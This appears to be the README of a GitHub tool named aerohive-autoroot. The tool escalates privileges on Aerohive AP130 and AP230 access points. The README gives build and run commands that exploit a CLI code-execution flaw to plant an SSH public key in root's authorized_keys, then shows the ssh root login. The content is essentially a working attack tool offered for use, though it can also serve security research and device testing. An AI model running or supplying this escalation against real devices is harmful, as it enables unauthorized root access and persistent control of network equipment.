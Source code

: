 # aerohive-autoroot
Privilege escalation on aerohive devices

# Tested devices

- AP130
- AP230

# Requirements
CLI access

# How to

```
go build .
./aerohive-autoroot --pubkey publickey.pub 10.0.0.1:22 # Where 10.0.0.1 is the device address
```

Wait until command completes then connect with:  

```
ssh root@10.0.0.1
```

# How it works
The Aerohive CLI has a flaw that allows code execution. Using this, it is possible to put a public key in the root users `.ssh/authorized_keys` file, and this gain full shell.
